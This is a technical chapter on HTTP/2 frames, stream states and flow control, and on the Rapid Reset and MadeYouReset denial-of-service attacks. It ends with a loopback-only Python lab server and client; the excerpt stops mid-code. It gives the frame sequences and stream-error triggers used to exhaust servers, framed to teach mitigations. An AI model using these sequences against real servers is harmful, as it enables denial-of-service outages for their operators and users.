

# HTTP/2 Frames, Flow Control and Stream Abuse: Rapid Reset and Server-Provoked Resets

HTTP/1.1 ties concurrency to TCP connections: one outstanding request per connection unless you pipeline, which breaks in practice because of head-of-line blocking and proxy bugs. HTTP/2 moves multiplexing up into the application layer so a single TCP connection carries dozens or hundreds of concurrent request-response exchanges, called streams, interleaved as length-prefixed binary frames. For an operator, that shift changes where bottlenecks and failure modes live. A single TCP connection can now saturate a backend worker pool, stall on an application-layer window while the kernel socket buffer has plenty of room, or tear down a connection over a single malformed frame header.

The same multiplexing machinery creates an asymmetric cost model when clients misbehave. In HTTP/1.1, opening a thousand concurrent requests against an origin or reverse proxy requires a thousand TCP handshakes, file descriptors, and TLS sessions, which kernel limits and connection-rate rules catch early. In HTTP/2, a client can open and cancel thousands of streams per second over one established TLS connection, leaving the proxy or origin server to pay the CPU, memory, and upstream-connection cost of parsing headers, routing requests, and dispatching backend work that the client no longer wants.

Two major vulnerability classes exploit that asymmetry. Rapid Reset (CVE-2023-44487) pairs `HEADERS` with immediate `RST_STREAM` frames so streams vanish before concurrency limits ever notice them. MadeYouReset (CVE-2025-8671) achieves the same effect without sending `RST_STREAM` at all: the client sends a frame that violates a per-stream protocol rule, forcing the server to emit `RST_STREAM` itself while bypassing mitigations that only count client-initiated resets. Understanding how frames, stream state machines, `SETTINGS`, and two-level flow control interact is the prerequisite for reading packet captures, tuning proxy limits, and verifying that your edge actually stops stream-abuse floods.

## Learning goals

- Decode the 9-octet HTTP/2 frame header, frame types, and flags, and explain how cleartext `h2c` prior knowledge and TLS ALPN `h2` establish a session.
- Trace stream identifier allocation rules and the stream state machine, including why an out-of-order or wrong-parity stream ID triggers a connection-wide `GOAWAY`.
- Distinguish per-stream flow control from per-connection flow control and calculate how `SETTINGS_INITIAL_WINDOW_SIZE` and `WINDOW_UPDATE` affect each.
- Configure and verify `SETTINGS_MAX_CONCURRENT_STREAMS` and distinguish `REFUSED_STREAM` from `PROTOCOL_ERROR` when limits are exceeded.
- Explain why Rapid Reset (CVE-2023-44487) bypasses `MAX_CONCURRENT_STREAMS` and how reset-budget mitigations stop it.
- Explain how MadeYouReset (CVE-2025-8671) provokes server-generated `RST_STREAM` frames to bypass client-only reset counters, and verify mitigation behavior in a local lab.

## Version note

RFC 9113 (published June 2022) defines HTTP/2 and obsoletes RFC 7540. Header compression remains in RFC 7541 (HPACK). RFC 9113 deprecates the RFC 7540 stream-dependency priority signaling scheme (`PRIORITY` frames must still be parsed and ignored or validated rather than rejected as unknown frames), while RFC 9218 defines Extensible Priorities via the `Priority` header field and `PRIORITY_UPDATE` frame. RFC 9113 also removes the HTTP/1.1 `Upgrade: h2c` cleartext upgrade mechanism; cleartext HTTP/2 now relies on prior knowledge. The lab in this chapter runs on Linux 6.12 with Python 3.13.5 using raw loopback sockets and implements the RFC 9113 framing, stream, and flow-control subset directly.

## Connection startup and binary framing

An HTTP/2 connection begins differently depending on whether it runs over TLS or cleartext TCP. Over TLS, the client and server negotiate the application protocol during the TLS handshake using Application-Layer Protocol Negotiation (ALPN) with the protocol identifier `h2`. Once the handshake finishes, both peers immediately speak binary HTTP/2 frames without an HTTP/1.1 request line.

Over cleartext TCP, RFC 9113 specifies `h2c` with prior knowledge: the client assumes the server speaks HTTP/2 and sends the 24-octet connection preface immediately after the TCP handshake completes:

```text
PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n
```

In hexadecimal, those 24 bytes are `50 52 49 20 2a 20 48 54 54 50 2f 32 2e 30 0d 0a 0d 0a 53 4d 0d 0a 0d 0a`. The preface is deliberately shaped like a malformed HTTP/1.1 request so an accidental HTTP/1.1 server rejects it rather than misinterpreting subsequent binary frames. Immediately following the 24-octet preface, the client sends a `SETTINGS` frame (which may have a zero-length payload). The server validates the preface and sends its own `SETTINGS` frame. Both sides acknowledge receipt of the peer's `SETTINGS` frame by returning a `SETTINGS` frame with the `ACK` flag (`0x01`) and an empty payload.

Every message on the wire after the connection preface is a frame sharing an identical 9-octet header followed by a variable-length payload:

```text
+-----------------------------------------------+
|                 Length (24)                   |
+---------------+---------------+---------------+
|   Type (8)    |   Flags (8)   |
+-+-------------+---------------+-------------------------------+
|R|                 Stream Identifier (31)                      |
+=+=============================================================+
|                   Frame Payload (0...)                      ...
+---------------------------------------------------------------+
```

The fields in the 9-octet header are big-endian:

- **Length (24 bits)**: Unsigned integer giving the payload size in octets, excluding the 9-octet header itself. The default maximum payload size is `16384` octets (`SETTINGS_MAX_FRAME_SIZE`). Peers may advertise a larger limit up to `16777215` (`2^24 - 1`).
- **Type (8 bits)**: Identifies the frame format and semantics. Unknown frame types must be ignored and discarded unless they appear inside a header block sequence.
- **Flags (8 bits)**: Type-specific boolean flags. Bits not defined for a given frame type must be ignored.
- **R (1 bit)**: Reserved bit, set to `0` on send and ignored on receipt.
- **Stream Identifier (31 bits)**: Unsigned integer identifying the stream. Stream `0` is reserved for connection-wide control frames (`SETTINGS`, `PING`, `GOAWAY`, connection-level `WINDOW_UPDATE`).

RFC 9113 defines ten core frame types:

| Type code | Name | Stream ID | Flags used in this chapter | Purpose |
| :--- | :--- | :--- | :--- | :--- |
| `0x0` | `DATA` | Non-zero | `END_STREAM` (`0x1`) | Carries request or response body bytes; subject to flow control |
| `0x1` | `HEADERS` | Non-zero | `END_STREAM` (`0x1`), `END_HEADERS` (`0x4`) | Opens a stream and carries a compressed header block fragment |
| `0x2` | `PRIORITY` | Non-zero | None | Legacy RFC 7540 stream priority; payload must be 5 octets |
| `0x3` | `RST_STREAM` | Non-zero | None | Immediately terminates a stream with a 4-octet error code |
| `0x4` | `SETTINGS` | `0` | `ACK` (`0x1`) | Negotiates connection parameters or acknowledges receipt |
| `0x5` | `PUSH_PROMISE` | Non-zero | `END_HEADERS` (`0x4`) | Server-initiated notification of a pushed response |
| `0x6` | `PING` | `0` | `ACK` (`0x1`) | Measures round-trip time and checks liveness with 8-octet payload |
| `0x7` | `GOAWAY` | `0` | None | Initiates graceful or error shutdown with last processed stream ID |
| `0x8` | `WINDOW_UPDATE` | `0` or non-zero | None | Increments connection or stream flow-control window |
| `0x9` | `CONTINUATION` | Non-zero | `END_HEADERS` (`0x4`) | Continues a header block started by `HEADERS` or `PUSH_PROMISE` |

Header compression (HPACK) and the mechanics of splitting large header blocks across `CONTINUATION` frames—including `CONTINUATION` floods where a peer sends endless `CONTINUATION` frames without `END_HEADERS`—are covered in the HPACK/QPACK chapter and are not repeated here. Note only that `END_STREAM` (`0x1`) on `HEADERS` or `DATA` indicates no further frames will be sent by that endpoint on that stream, while `ACK` shares the numeric value `0x1` on `SETTINGS` and `PING` frames.

## Stream identifiers, states, and SETTINGS

Because all requests share one TCP connection, HTTP/2 relies on strict stream-numbering rules to prevent collisions between client-initiated and server-initiated streams:

- **Stream `0`**: Reserved exclusively for connection-level control frames. Sending `HEADERS`, `DATA`, or `RST_STREAM` on stream `0` is a connection error of type `PROTOCOL_ERROR`.
- **Odd stream IDs (`1, 3, 5, ...`)**: Initiated by the client.
- **Even stream IDs (`2, 4, 6, ...`)**: Initiated by the server (via `PUSH_PROMISE`, when push is enabled).
- **Monotonicity**: Every newly opened stream identifier must be strictly greater than all stream identifiers previously opened by that endpoint on the same connection.

If a client sends a `HEADERS` frame with an even stream ID, or with an odd stream ID less than or equal to a stream ID it has already opened, the server must treat it as a connection error of type `PROTOCOL_ERROR`, send a `GOAWAY` frame, and close the TCP connection. Stream IDs cannot be reused on a connection; once a connection approaches `2^31 - 1`, the client opens a new TCP connection.

Each stream progresses through a finite state machine:

```text
                       +--------+
               send PP |        | recv PP
              ,--------|  idle  |--------.
             /         |        |         \
            v          +--------+          v
     +----------+          |           +----------+
     |          |          | send H /  |          |
 ,---| reserved |          | recv H    | reserved |---.
 |   | (local)  |          |           | (remote) |   |
 |   +----------+          v           +----------+   |
 |       |             +--------+             |       |
 |       |     recv ES |        | send ES     |       |
 |       |    ,--------|  open  |--------.    |       |
 |       |   /         |        |         \   |       |
 | send H|  v          +--------+          v  |recv H |
 |       | +----------+    |    +----------+  |       |
 |       '>|   half-  |    |    |   half-  |<'        |
 |         |  closed  |    |    |  closed  |          |
 |         | (remote) |    |    | (local)  |          |
 |         +----------+    |    +----------+          |
 |              |          |          |               |
 |              | send ES /|          | recv ES /     |
 |              | send R / |          | send R /      |
 |              | recv R   |          | recv R        |
 |              v          v          v               |
 |             +-------------------------+            |
 '------------>|         closed          |<-----------'
   send R /    +-------------------------+    send R /
   recv R                                     recv R
```

In the diagram, `H` is `HEADERS`, `PP` is `PUSH_PROMISE`, `ES` is the `END_STREAM` flag, and `R` is `RST_STREAM`. Most HTTP requests follow a simple path: a client sends `HEADERS` with `END_STREAM` (and `END_HEADERS`) on an idle odd stream, moving it straight from `idle` through `open` to `half-closed (remote)` from the server's perspective (or `half-closed (local)` from the client's perspective). The server processes the request, sends response `HEADERS` and `DATA` with `END_STREAM`, and the stream enters `closed`. If either side sends `RST_STREAM`, the stream transitions immediately to `closed`.

Connection parameters are negotiated at startup and optionally updated mid-connection via `SETTINGS` frames. Each setting in a `SETTINGS` payload is a 6-octet pair: a 16-bit identifier and a 32-bit unsigned value.

| ID | Name | Initial value | Meaning |
| :--- | :--- | :--- | :--- |
| `0x1` | `HEADER_TABLE_SIZE` | `4096` | Maximum size in octets of the HPACK dynamic table |
| `0x2` | `ENABLE_PUSH` | `1` | `0` disables server push; `1` permits it |
| `0x3` | `MAX_CONCURRENT_STREAMS` | Unlimited | Maximum number of simultaneous `open` or `half-closed` streams |
| `0x4` | `INITIAL_WINDOW_SIZE` | `65535` | Initial per-stream flow-control window in octets |
| `0x5` | `MAX_FRAME_SIZE` | `16384` | Maximum frame payload size in octets (`16384` to `16777215`) |
| `0x6` | `MAX_HEADER_LIST_SIZE` | Unlimited | Advisory maximum uncompressed size of a header list |

`SETTINGS_MAX_CONCURRENT_STREAMS` (`0x3`) is the primary lever an operator uses to bound per-connection concurrency. Although the protocol default is unlimited, RFC 9113 recommends that endpoints not set it below `100` to avoid unnecessarily constraining normal multiplexing. When a client attempts to open a stream that would exceed the server's advertised `MAX_CONCURRENT_STREAMS`, the server responds with a stream error of `PROTOCOL_ERROR` or `REFUSED_STREAM` (`0x7`). `REFUSED_STREAM` is the preferred choice for overload protection because RFC 9113 defines it to mean that no application processing occurred on the stream, signaling to the client that the request is safe to retry automatically.

## Two-level flow control

TCP provides byte-stream flow control across the whole connection via the TCP receive window, but TCP cannot slow down one slow-reading HTTP/2 stream without stalling every other stream on the same socket. HTTP/2 therefore adds its own credit-based flow control on top of TCP.

Three rules govern HTTP/2 flow control:

1. **Flow control applies only to `DATA` frames.** `HEADERS`, `SETTINGS`, `PING`, `RST_STREAM`, `WINDOW_UPDATE`, and `GOAWAY` are never blocked by flow-control windows.
2. **Every `DATA` payload consumes credit from two independent windows.** To send a `DATA` frame of `N` bytes on stream `S`, the sender must have at least `N` bytes of credit in both the per-stream window for `S` and the connection-level window on stream `0`.
3. **Windows are directional.** Each endpoint advertises receive windows for the `DATA` frames it is willing to accept.

```text
Sender wants to transmit DATA (N bytes) on Stream S
        |
        +---> [ Stream S Window ]     (init: SETTINGS_INITIAL_WINDOW_SIZE, default 65535)
        |       must be >= N           replenished only by WINDOW_UPDATE(stream=S)
        |
        +---> [ Connection Window ]   (init: always 65535)
                must be >= N           replenished only by WINDOW_UPDATE(stream=0)
                                       NOT changed by SETTINGS_INITIAL_WINDOW_SIZE
```

This separation trips up operators and client implementers regularly. When a client sends `SETTINGS` with `INITIAL_WINDOW_SIZE` (`0x4`) set to `1048576` (1 MiB), it raises the initial credit for every stream—and adjusts existing open stream windows by the delta between the new and old `INITIAL_WINDOW_SIZE`—but it **does not** change the connection-level window. The connection window always starts at `65535` octets and can only be increased by sending a `WINDOW_UPDATE` frame on stream `0`.

If a sender exhausts either window, it must stop sending `DATA` frames on the affected stream (or on all streams, if the connection window hits `0`) until a `WINDOW_UPDATE` arrives. A `WINDOW_UPDATE` frame carries a 4-octet payload containing a 1-bit reserved field and a 31-bit unsigned increment (`1` to `2^31 - 1`).

Two boundary conditions in `WINDOW_UPDATE` are protocol errors:

- **Zero increment**: A `WINDOW_UPDATE` with an increment of `0` is a stream error of type `PROTOCOL_ERROR` when sent on a non-zero stream, and a connection error of type `PROTOCOL_ERROR` when sent on stream `0`.
- **Window overflow**: The maximum allowed flow-control window is `2^31 - 1` (`2147483647`). A `WINDOW_UPDATE` that pushes a window past that limit is a `FLOW_CONTROL_ERROR`: `RST_STREAM` for a stream window, `GOAWAY` for the connection window. A `SETTINGS_INITIAL_WINDOW_SIZE` change that pushes any stream window past the limit is always a connection error of type `FLOW_CONTROL_ERROR` (RFC 9113 section 6.9.2).

## Error codes, GOAWAY, and the 2019 DoS family

HTTP/2 distinguishes between **connection errors** and **stream errors**. A connection error renders the entire TCP connection unusable; the endpoint detecting the error sends a `GOAWAY` frame on stream `0` and closes the connection. A `GOAWAY` frame carries two 32-bit fields: the highest stream ID that the sender might have processed (`last_stream_id`) and a 32-bit error code, optionally followed by debug data. Anything with a stream ID higher than `last_stream_id` was definitely not processed and is safe for the peer to retry on a new connection.

A stream error affects only a single stream. The endpoint sends a `RST_STREAM` frame on that stream ID carrying a 4-octet error code, and the connection remains open for all other streams.

RFC 9113 defines fourteen error codes:

| Code | Name | Typical scope | Meaning |
| :--- | :--- | :--- | :--- |
| `0x0` | `NO_ERROR` | Connection / Stream | Graceful shutdown (`GOAWAY`) or normal termination |
| `0x1` | `PROTOCOL_ERROR` | Connection / Stream | Unspecified protocol rule violation |
| `0x2` | `INTERNAL_ERROR` | Connection / Stream | Unexpected internal failure |
| `0x3` | `FLOW_CONTROL_ERROR` | Connection / Stream | Peer violated flow-control window limits |
| `0x4` | `SETTINGS_TIMEOUT` | Connection | Peer did not acknowledge `SETTINGS` in time |
| `0x5` | `STREAM_CLOSED` | Connection / Stream | Frame received on a half-closed or closed stream |
| `0x6` | `FRAME_SIZE_ERROR` | Connection / Stream | Frame length invalid for its type or exceeds `MAX_FRAME_SIZE` |
| `0x7` | `REFUSED_STREAM` | Stream | Stream rejected before any application processing |
| `0x8` | `CANCEL` | Stream | Stream no longer needed by sender |
| `0x9` | `COMPRESSION_ERROR` | Connection | HPACK decoder state cannot be maintained |
| `0xa` | `CONNECT_ERROR` | Stream | TCP connection established for `CONNECT` failed or reset |
| `0xb` | `ENHANCE_YOUR_CALM` | Connection | Peer is generating excessive load or abusive frame rates |
| `0xc` | `INADEQUATE_SECURITY` | Connection | Negotiated TLS parameters do not meet HTTP/2 requirements |
| `0xd` | `HTTP_1_1_REQUIRED` | Connection / Stream | Endpoint requires HTTP/1.1 instead of HTTP/2 |

In August 2019, Netflix and CERT/CC disclosed a cluster of eight HTTP/2 denial-of-service vulnerabilities showing how cheap control frames and flow-control tricks could exhaust server CPU or memory:

- **CVE-2019-9511 (Data Dribble)**: Requesting a large response and advertising a tiny `WINDOW_UPDATE` increment (for example, 1 byte at a time), forcing the server to allocate internal frame structures and perform system calls for trivial payloads.
- **CVE-2019-9512 (Ping Flood)**: Sending continuous `PING` frames without reading the `PING ACK` replies, queueing unbounded response frames in server memory.
- **CVE-2019-9513 (Resource Loop)**: Sending continuous RFC 7540 `PRIORITY` frames that reshuffle the dependency tree, burning server CPU without advancing any request.
- **CVE-2019-9514 (Reset Flood)**: Opening many streams and sending an invalid request on each, so the server answers with a stream of `RST_STREAM` frames that queue up if the client does not read them.
- **CVE-2019-9515 (Settings Flood)**: Sending streams of empty `SETTINGS` frames so the server burns CPU processing and queueing `SETTINGS ACK` frames.
- **CVE-2019-9516 (0-Length Headers Leak)**: Sending zero-length header names or values in `HEADERS` frames, causing certain implementations to allocate memory that was never freed.
- **CVE-2019-9517 (Internal Data Buffering)**: Opening streams and sending requests for large bodies while refusing to read from the TCP socket or withholding `WINDOW_UPDATE`, pinning response buffers in server memory.
- **CVE-2019-9518 (Empty Frames Flood)**: Sending streams of zero-length `DATA` or `HEADERS` frames without `END_STREAM` or `END_HEADERS`, consuming CPU parsing no-op frames.

Those 2019 advisories established the baseline defensive pattern for HTTP/2 servers: bound outbound control-frame queues, rate-limit `PING` and `SETTINGS` frames, and treat tiny-increment window dribbling and floods of empty frames as abuse. Four years later, a much larger attack showed that even servers patched against the 2019 set had a fundamental blind spot around stream concurrency.

## Rapid Reset (CVE-2023-44487)

On 10 October 2023, Google, Cloudflare, and AWS jointly disclosed CVE-2023-44487, known as HTTP/2 Rapid Reset, which is listed in the CISA Known Exploited Vulnerabilities (KEV) catalog. During the campaigns preceding disclosure, the providers reported record request-per-second peaks: roughly 398 million requests per second at Google, 201 million requests per second at Cloudflare, and 155 million requests per second at AWS.

The attack exploits the interaction between `MAX_CONCURRENT_STREAMS` and `RST_STREAM`. In normal operation, `MAX_CONCURRENT_STREAMS` (say, `100`) caps how many requests a single connection can keep in flight simultaneously:

```text
Normal overload (stopped by MAX_CONCURRENT_STREAMS = 100):
  Client -> HEADERS (stream 1..199)    [100 streams open]
  Client -> HEADERS (stream 201)       [101st stream]
  Server -> RST_STREAM (stream 201, REFUSED_STREAM)

Rapid Reset (CVE-2023-44487):
  Client -> HEADERS (stream 1)         [open_streams = 1; server starts parsing/routing/upstream]
  Client -> RST_STREAM (stream 1)      [open_streams = 0; stream closed immediately]
  Client -> HEADERS (stream 3)         [open_streams = 1; server starts work again]
  Client -> RST_STREAM (stream 3)      [open_streams = 0]
  ... repeats thousands of times per RTT on one connection ...
```

Because the client sends `HEADERS` and `RST_STREAM` back-to-back in the same TCP segment or burst, the server reads `HEADERS`, dispatches the request to its routing layer or upstream backend, and immediately reads `RST_STREAM`, which decrements the open-stream counter back to `0`. From the perspective of `MAX_CONCURRENT_STREAMS`, the connection never has more than one stream open at a time, so `REFUSED_STREAM` never fires.

Meanwhile, the server has already paid the cost of HPACK decoding, request validation, and often initiating an upstream HTTP/1.1 or HTTP/2 request or database query. Even when a reverse proxy cancels the outbound request upon receiving `RST_STREAM`, the backend may have already started executing the request and may continue running until it completes or hits a timeout.

Mitigating Rapid Reset requires tracking reset behavior per connection rather than relying solely on simultaneous open-stream counts:

- **Per-connection reset budgets**: Count `RST_STREAM` frames received from the client (or the ratio of cancelled streams to completed streams over a sliding window). When a connection exceeds the budget, send `GOAWAY` with `ENHANCE_YOUR_CALM` (`0xb`) and close the TCP connection.
- **Patching servers and proxies**: Vendors updated their HTTP/2 stacks with reset and stream-creation limits per connection; the details differ by product, so read your vendor's advisory for CVE-2023-44487.

## Server-provoked resets: MadeYouReset (CVE-2025-8671)

{fig-alt="Three lanes: client, HTTP/2 server, backend. Rapid Reset: HEADERS then RST_STREAM CANCEL, the backend request has already started, active streams go 1 to 0. MadeYouReset: HEADERS then WINDOW_UPDATE with increment 0, the server sends RST_STREAM PROTOCOL_ERROR itself, so a client-reset budget never fires. Fix: count resets of either kind per connection and send GOAWAY ENHANCE_YOUR_CALM."}

In August 2025, researchers Gal Bar Nahum, Anat Bremler-Barr, and Yaniv Harel (Tel Aviv University, working with Imperva) disclosed MadeYouReset (CVE-2025-8671). MadeYouReset achieves the same backend-exhaustion effect as Rapid Reset while evading mitigations that only count `RST_STREAM` frames sent by the client.

Instead of sending `RST_STREAM`, the client sends a `HEADERS` frame to start a stream and immediately follows it with a frame that RFC 9113 defines as a **stream error**, forcing the *server* to emit `RST_STREAM` and close the stream:

```text
MadeYouReset (CVE-2025-8671):
  Client -> HEADERS (stream 1)                 [server starts backend/upstream work]
  Client -> WINDOW_UPDATE (stream 1, inc=0)    [RFC 9113 stream error: PROTOCOL_ERROR]
  Server -> RST_STREAM (stream 1)              [server closes stream; open_streams = 0]
  ... client_rst_count stays 0; server_rst_count increments; backend work orphaned ...
```

The researchers cataloged several RFC-valid triggers that provoke a server-generated `RST_STREAM` without triggering a connection-wide `GOAWAY`:

1. **`WINDOW_UPDATE` with increment `0`**: Sending `WINDOW_UPDATE` on a non-zero stream with increment `0` is a stream error (`PROTOCOL_ERROR`).
2. **Malformed `PRIORITY` frame length**: Sending a `PRIORITY` frame on the stream whose payload length is anything other than `5` octets is a stream error (`FRAME_SIZE_ERROR`).
3. **RFC 7540 `PRIORITY` self-dependency**: On implementations still enforcing RFC 7540 dependency rules, making a stream depend on itself in a `PRIORITY` frame is a stream error (`PROTOCOL_ERROR`).
4. **Flow-control window overflow**: Sending a `WINDOW_UPDATE` on the stream that pushes its window past `2^31 - 1` is a stream error (`FLOW_CONTROL_ERROR`).
5. **Post-`END_STREAM` frames**: Sending `HEADERS` or `DATA` on a stream that the client already half-closed with `END_STREAM` is a stream error (`STREAM_CLOSED`).

From the concurrency accounting perspective, the result is identical to Rapid Reset: the server transitions the stream to `closed`, freeing its `MAX_CONCURRENT_STREAMS` slot so the client can open the next stream immediately. Yet any proxy or origin that only increments its abuse counter on *inbound* `RST_STREAM` frames sees zero client resets and never sends `GOAWAY`. Worse, if the server dispatches the backend request before or asynchronously from the frame-validation error path, the backend work is orphaned and continues running after the server sends `RST_STREAM`.

Following the disclosure, individual HTTP/2 server and proxy vendors issued their own product advisories and patches. The durable fix mirrors Rapid Reset: reset budgets must count **both** client-sent `RST_STREAM` frames and server-sent `RST_STREAM` frames (or track total aborted/errored streams against completed streams per connection) before emitting `GOAWAY` (`ENHANCE_YOUR_CALM`).

## The lab

The lab implements a minimal cleartext HTTP/2 (`h2c` prior knowledge) server and client in Python over loopback TCP sockets (`127.0.0.1`). The server simulates backend processing with a 50 ms timer (`work=0.05` s, or `0.2` s in the concurrency test) before sending `:status: 200` and a response body, and tracks per-connection statistics including started, completed, cancelled, refused, client-reset, and server-reset streams.

### Lab files

The lab consists of the Python HTTP/2 server/client script and a shell wrapper:

```{.python filename="h2lab.py"}
"""HTTP/2 framing, flow control and stream abuse: a tiny cleartext (h2c,
prior knowledge) server and client written from RFC 9113. Loopback only."""
import socket, struct, threading, time, select

PREFACE = b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"
T = {0: "DATA", 1: "HEADERS", 2: "PRIORITY", 3: "RST_STREAM", 4: "SETTINGS", 5: "PUSH_PROMISE",
     6: "PING", 7: "GOAWAY", 8: "WINDOW_UPDATE", 9: "CONTINUATION"}
ERR = {0: "NO_ERROR", 1: "PROTOCOL_ERROR", 3: "FLOW_CONTROL_ERROR", 5: "STREAM_CLOSED",
       6: "FRAME_SIZE_ERROR", 7: "REFUSED_STREAM", 8: "CANCEL", 11: "ENHANCE_YOUR_CALM"}
SET = {1: "HEADER_TABLE_SIZE", 2: "ENABLE_PUSH", 3: "MAX_CONCURRENT_STREAMS",
       4: "INITIAL_WINDOW_SIZE", 5: "MAX_FRAME_SIZE", 6: "MAX_HEADER_LIST_SIZE"}
DATA, HEADERS, PRIORITY, RST, SETTINGS, PING, GOAWAY, WINUPD = 0, 1, 2, 3, 4, 6, 7, 8
END_STREAM, END_HEADERS, ACK = 1, 4, 1

def frame(t, flags, sid, payload=b""):
    return struct.pack("!I", len(payload))[1:] + bytes([t, flags]) + struct.pack("!I", sid) + payload

def read_frame(sock):
    hdr = recv_exact(sock, 9)
    if not hdr: return None
    ln = int.from_bytes(hdr[:3], "big")
    return hdr[3], hdr[4], struct.unpack("!I", hdr[5:9])[0] & 0x7fffffff, recv_exact(sock, ln)

def recv_exact(sock, n):
    b = b""
    while len(b) < n:
        try:
            c = sock.recv(n - len(b))
        except ConnectionResetError:
            return None
        if not c: return None
        b += c
    return b

def hpack_str(s): return bytes([len(s)]) + s.encode()       # H=0, len < 127 assumed
def req_headers(path):  # :method GET (idx 2), :scheme http (idx 6), literal :path, literal :authority
    return b"\x82\x86" + b"\x00" + hpack_str(":path") + hpack_str(path) + b"\x00" + hpack_str(":authority") + hpack_str("lab")
def hpack_path(block):
    i = 0; out = {}
    while i < len(block):
        b = block[i]
        if b & 0x80: i += 1; continue                        # indexed field (static subset)
        i += 1; n = block[i]; name = block[i+1:i+1+n].decode(); i += 1 + n
        n = block[i]; val = block[i+1:i+1+n].decode(); i += 1 + n; out[name] = val
    return out.get(":path", "/")

def describe(t, flags, sid, p):
    d = f"{T.get(t, t):<13} flags=0x{flags:02x} stream={sid:<3} len={len(p):<5}"
    if t == SETTINGS and not flags & ACK:
        d += " " + ", ".join(f"{SET.get(k, k)}={v}" for k, v in (struct.unpack("!HI", p[i:i+6]) for i in range(0, len(p), 6)))
    elif t == SETTINGS: d += " ACK"
    elif t == WINUPD: d += f" increment={struct.unpack('!I', p)[0]}"
    elif t in (RST,): d += f" {ERR.get(struct.unpack('!I', p)[0])}"
    elif t == GOAWAY:
        last, code = struct.unpack("!II", p[:8]); d += f" last_stream={last} {ERR.get(code, code)}"
    elif t == HEADERS and flags & END_STREAM: d += " END_STREAM"
    elif t == DATA and flags & END_STREAM: d += " END_STREAM"
    return d

class Server:
    """Single connection at a time; select loop; responses respect flow control."""
    def __init__(self, max_streams=100, reset_budget=None, count_server_resets=False, work=0.05):
        self.ls = socket.socket(); self.ls.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.ls.bind(("127.0.0.1", 0)); self.ls.listen(4)
        self.addr = self.ls.getsockname(); self.max_streams = max_streams
        self.reset_budget, self.count_server_resets, self.work = reset_budget, count_server_resets, work
        self.stats = {}
        threading.Thread(target=self.serve, daemon=True).start()
    def serve(self):
        while True:
            c, _ = self.ls.accept(); self.conn(c)
    def conn(self, c):
        st = dict(started=0, completed=0, cancelled=0, refused=0, client_rst=0, server_rst=0, max_open=0, goaway=None)
        self.stats = st
        assert recv_exact(c, len(PREFACE)) == PREFACE
        c.sendall(frame(SETTINGS, 0, 0, struct.pack("!HI", 3, self.max_streams)))
        conn_win, init_win = 65535, 65535
        streams = {}            # sid -> dict(state, due, body, win)
        last_sid = 0
        def rst(sid, code):
            c.sendall(frame(RST, 0, sid, struct.pack("!I", code))); st["server_rst"] += 1
            streams.pop(sid, None)
        def goaway(code):
            c.sendall(frame(GOAWAY, 0, 0, struct.pack("!II", last_sid, code))); st["goaway"] = ERR[code]
        while True:
            now = time.time()
            for sid, s in list(streams.items()):          # finish backend work, then send
                if s["state"] == "work" and now >= s["due"]:
                    s["state"] = "send"; st["completed"] += 1
                    c.sendall(frame(HEADERS, END_HEADERS, sid, b"\x88"))   # :status 200
                if s["state"] == "send":
                    n = min(len(s["body"]), s["win"], conn_win, 16384)
                    if n > 0 or not s["body"]:
                        chunk, s["body"] = s["body"][:n], s["body"][n:]
                        s["win"] -= n; conn_win -= n
                        c.sendall(frame(DATA, END_STREAM if not s["body"] else 0, sid, chunk))
                        if not s["body"]: streams.pop(sid)
            r, _, _ = select.select([c], [], [], 0.005)
            if not r: continue
            f = read_frame(c)
            if f is None: break
            t, flags, sid, p = f
            if t == SETTINGS and not flags & ACK:
                for i in range(0, len(p), 6):
                    k, v = struct.unpack("!HI", p[i:i+6])
                    if k == 4:
                        for s in streams.values(): s["win"] += v - init_win
                        init_win = v
                c.sendall(frame(SETTINGS, ACK, 0))
            elif t == HEADERS:
                if sid % 2 == 0 or sid <= last_sid:
                    goaway(1); break
                last_sid = sid
                open_n = sum(1 for s in streams.values() if s["state"] in ("work", "open"))
                if open_n >= self.max_streams:
                    st["refused"] += 1; rst(sid, 7); continue
                path = hpack_path(p)
                body = b"x" * (100000 if path == "/big" else 50000 if path == "/half" else 13)
                streams[sid] = dict(state="work", due=time.time() + self.work, body=body, win=init_win)
                st["started"] += 1
                st["max_open"] = max(st["max_open"], open_n + 1)
            elif t == RST:
                st["client_rst"] += 1
                if sid in streams and streams[sid]["state"] == "work": st["cancelled"] += 1
                streams.pop(sid, None)
            elif t == WINUPD:
                inc = struct.unpack("!I", p)[0] & 0x7fffffff
                if inc == 0:                                  # RFC 9113 6.9: stream error
                    s = streams.get(sid)
                    rst(sid, 1)
                    if s and s["state"] == "work": st["orphaned"] = st.get("orphaned", 0) + 1
                elif sid == 0: conn_win += inc
                elif sid in streams: streams[sid]["win"] += inc
            elif t == PING and not flags & ACK:
                c.sendall(frame(PING, ACK, 0, p))
            resets = st["client_rst"] + (st["server_rst"] if self.count_server_resets else 0)
            if self.reset_budget is not None and resets > self.reset_budget:
                goaway(11); break
        c.shutdown(socket.SHUT_WR)             # GOAWAY first, then drain so close() does not RST
        c.settimeout(0.5)
        try:
            while c.recv(65536): pass
        except OSError: pass
        c.close()

class Client:
    def __init__(self, addr, settings=b"", log=True):
        self.s = socket.create_connection(addr); self.log = log
        self.s.sendall(PREFACE + frame(SETTINGS, 0, 0, settings))
        if log: self.show(">", SETTINGS, 0, 0, settings)
    def show(self, d, t, flags, sid, p):
        if self.log: print(f"  {d} {describe(t, flags, sid, p)}")
    def send(self, t, flags, sid, p=b""):
        self.s.sendall(frame(t, flags, sid, p)); self.show(">", t, flags, sid, p)
    def recv_all(self, quiet=0.3, show=True):
        got = []
        while True:
            r, _, _ = select.select([self.s], [], [], quiet)
            if not r: break
            f = read_frame(self.s)
